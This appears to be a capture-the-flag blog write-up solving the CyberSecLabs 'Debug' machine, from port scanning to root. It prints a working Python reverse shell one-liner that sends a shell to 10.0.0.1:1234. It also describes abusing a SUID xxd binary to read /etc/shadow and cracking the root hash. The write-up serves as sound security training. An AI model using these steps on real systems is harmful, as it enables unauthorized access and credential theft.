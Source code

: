 ```yaml
---
layout: page
title: Debug - CyberSecLabs
permalink: /posts/ctf/cyberseclabs/debug.html
---
```


# Debug - CyberSecLabs
----



First things first, lets run our nmap scan.  I use a custom script that scans for ports then passes those open ports to nmap for service enumeration, however you can achieve the same results with the below command.

`nmap -p- -A 172.31.1.3`

![image](https://user-images.githubusercontent.com/50459517/109021751-cb156300-7680-11eb-90a4-873c885cfa6f.png)

Looks like we only have 2 ports open, lets check out the web site on port 80 first.

![image](https://user-images.githubusercontent.com/50459517/109021814-d8cae880-7680-11eb-9c6f-08bb45af8d35.png)

Seems like we have just a basic web site here, lets enumerate for directories with **dirsearch**

![image](https://user-images.githubusercontent.com/50459517/109021881-e84a3180-7680-11eb-8f33-18056eb700fb.png)

A couple of these such as /contact and /blog can be seen from the main page, however /console looks interesting.  Lets go there and see what we got.

![image](https://user-images.githubusercontent.com/50459517/109021930-f5672080-7680-11eb-8aa9-371eb8d6d09c.png)

Looks like we have an interactive console on the website that we can execute python code on.  I tried a simple **print("hello world")** which worked successfully.  I then executed the following to test and see if we was executing code straight from the server and make sure this wasn't some kind of rabbit hole.

![image](https://user-images.githubusercontent.com/50459517/109021975-0021b580-7681-11eb-875f-7c211ffc4659.png)

This looks good.  Since we are executing python code from the server, we can execute a python reverse shell one liner like the following to get a reverse shell..

`import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);`
`s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); `
`os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);`

If we start a netcat listener on out machine and execute this, we get a shell as the user **megan**

![image](https://user-images.githubusercontent.com/50459517/109022222-3eb77000-7681-11eb-957a-26b53cd72042.png)

Now lets copy **LinPEAS** to the machine and see what we can find.

![image](https://user-images.githubusercontent.com/50459517/109022265-48d96e80-7681-11eb-8f49-b708062b16ea.png)

We see an interesting SUID binary that we may be able to abuse.  Lets look at **GTFOBins** and see what we can find.

![image](https://user-images.githubusercontent.com/50459517/109022317-52fb6d00-7681-11eb-93aa-84098690185d.png)

Looks like we may be able to abuse xxd to read files we don't have permission too.  Lets see if we can read the contents of **/etc/shadow**

![image](https://user-images.githubusercontent.com/50459517/109022368-5ee72f00-7681-11eb-8cf7-fdb06499cf3d.png)

It worked!  Lets copy the root hash and run it through john to see if we can crack it.

![image](https://user-images.githubusercontent.com/50459517/109022423-6a3a5a80-7681-11eb-84a2-37ac87a760e0.png)

Looks like we have a password!  Now we can login and have full root access to the machine!

![image](https://user-images.githubusercontent.com/50459517/109022462-732b2c00-7681-11eb-95db-806ca283ee01.png)
